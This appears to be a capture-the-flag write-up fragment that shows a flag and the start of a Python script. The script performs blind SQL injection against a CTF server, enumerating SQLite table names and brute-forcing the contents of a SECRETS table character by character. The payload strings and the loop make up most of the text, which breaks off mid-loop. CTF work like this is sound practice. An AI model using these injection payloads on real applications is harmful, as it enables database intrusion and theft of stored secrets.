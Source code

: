 	<img src="./flag.png">
</p>

### Flag:
*CTF{OH_DID_YOU_JUST_DUMP_ME?}*

---
### Code used

```python
import requests
import re

url = "http://165.22.90.215:8085"

# Bruteforcing of passwords in table"
# basePayload = "' OR password like '" 

# Bruteforcing SQLite database table names
# basePayload = "' UNION SELECT name FROM sqlite_master WHERE type='table' AND name LIKE '"
# Results:
# LEAKED_PASSWORDS
# SECRETS


# Bruteforce entry in SECRET table
basePayload = "' OR (SELECT * from SECRETS) LIKE '"

known = ""
i = 32 #Try ascii chars from 32(Space) to 125(})
while i < 126:
  # print known + chr(i)
  if i == 37: # Escape '%' character
```